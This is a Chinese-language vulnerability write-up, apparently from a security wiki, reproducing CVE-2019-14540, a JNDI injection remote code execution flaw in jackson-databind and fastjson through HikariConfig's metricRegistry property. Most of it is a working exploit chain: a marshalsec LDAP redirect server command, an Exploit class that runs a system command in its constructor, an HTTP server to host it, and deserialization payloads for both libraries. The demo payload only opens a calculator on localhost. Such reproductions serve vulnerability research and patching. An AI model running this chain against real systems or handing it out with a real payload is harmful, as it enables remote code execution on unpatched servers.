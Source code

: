 （CVE-2019-14540）FasterXML jackson-databind 远程命令执行漏洞
=============================================================

一、漏洞简介
------------

FasterXML
Jackson是美国FasterXML公司的一款适用于Java的数据处理工具。jackson-databind是其中的一个具有数据绑定功能的组件。
FasterXML jackson-databind
2.9.10之前版本中存在输入验证错误漏洞。攻击者可利用该漏洞执行代码。

二、漏洞影响
------------

jackson-databind \<=2.7.9.6,2.8.11.4,2.9.9.3

fastjson \<= 1.2.59

三、复现过程
------------

### 分析过程

我喜欢用 gradle 来管理项目，先依赖一个最新版的回来

    compile 'com.zaxxer:HikariCP:2.4.0'

观察 HikariConfig.java 的setter 和 getter
方法，稍微有点常识的人都能看出， setMetricRegistry 和
setHealthCheckRegistry
里有明显的lookup方法，下一步就是按照标准的剧本去利用一遍了，经典的jndi漏洞利用，老司机应该分分钟就搞定，但我从来没写过利用，就从头学习一下。

### 利用过程（常见的jndi利用）

首先，我利用的是 ldap 协议，需要在低版本（小于
java8u191）下利用，详细原理我不是很清楚，大致原理就是从远程加载一个
class文件，调用它的构造函数，在构造函数里可以执行任意代码。

然后，借用 https://github.com/ianxtianxt/marshalsec 提供的转发功能，创建
ldap server，作用是转发到另一个 http server 上，使用非常方便。

    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 1389

    Listening on 0.0.0.0:1389

然后编译一个 Exploit.class 出来，找个地方放好

    public class Exploit {
        public Exploit() {
            try {
                if (System.getProperty("os.name").toLowerCase().startsWith("win")) {
                    Runtime.getRuntime().exec("calc.exe");
                } else if (System.getProperty("os.name").toLowerCase().startsWith("mac")) {
                    Runtime.getRuntime().exec("open /Applications/Calculator.app");
                } else {
                    System.out.println("No calc for you!");
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

然后在 Exploit.class 目录，开一个 http 服务

    python -m SimpleHTTPServer

之后使用 jackson 进行反序列化

    ObjectMapper mapper = new ObjectMapper();
    mapper.enableDefaultTyping();
    mapper.readValue("[\"com.zaxxer.hikari.HikariConfig\", {\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}]".getBytes(), Object.class);

或者使用 fastjson 进行反序列化

    ParserConfig.global.setAutoTypeSupport(true);
    JSON.parse("{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}");

即可触发弹计算器

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-14540)FasterXMLjackson-databind远程命令执行漏洞/media/rId26.png)

### 文中代码的github地址:

https://github.com/ianxtianxt/cve-2019-14540-exploit

参考链接
--------

> https://www.leadroyal.cn/?p=939
>
> https://www.restran.net/2018/10/29/fastjson-rce-notes/
>
> https://paper.seebug.org/942/
